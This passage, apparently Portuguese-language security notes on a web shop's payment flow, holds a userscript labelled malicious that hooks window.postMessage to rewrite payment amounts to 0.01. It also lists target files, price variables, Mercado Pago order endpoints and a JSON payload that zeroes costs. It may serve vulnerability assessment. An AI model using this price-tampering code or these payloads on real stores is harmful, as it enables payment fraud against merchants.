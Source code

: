 #### A. Tampermonkey/Greasemonkey
```javascript
// Script malicioso que roda automaticamente
(function() {
    'use strict';
    
    // Interceptar todas as funções de pagamento
    const originalPostMessage = window.postMessage;
    window.postMessage = function(data) {
        if (data.type === 'payment') {
            data.amount = 0.01;
        }
        return originalPostMessage.call(this, data);
    };
})();
```

#### B. Burp Suite / OWASP ZAP
- Proxy HTTP interceptando requisições
- Modificação em tempo real
- Replay de ataques

### 3. PONTOS DE VULNERABILIDADE NO CÓDIGO

#### A. Frontend JavaScript
**Arquivos Alvo:**
- `/src/pages/payment.tsx`
- `/src/lib/queryClient.ts`
- Qualquer componente que lide com preços

**Variáveis Críticas:**
```javascript
// Procurar por estas variáveis no código
pricing.totalCost
order.amount
paymentData.amount
sessionStorage pricing
```

#### B. Requisições HTTP
**Endpoints Críticos:**
```
POST /api/orders
POST /api/mercadopago/create-card-payment
POST /api/mercadopago/create-pix-payment
```

**Payloads Maliciosos:**
```json
{
  "totalCost": 0.01,
  "deliveryCost": 0.01,
  "amount": 0.01
}
```
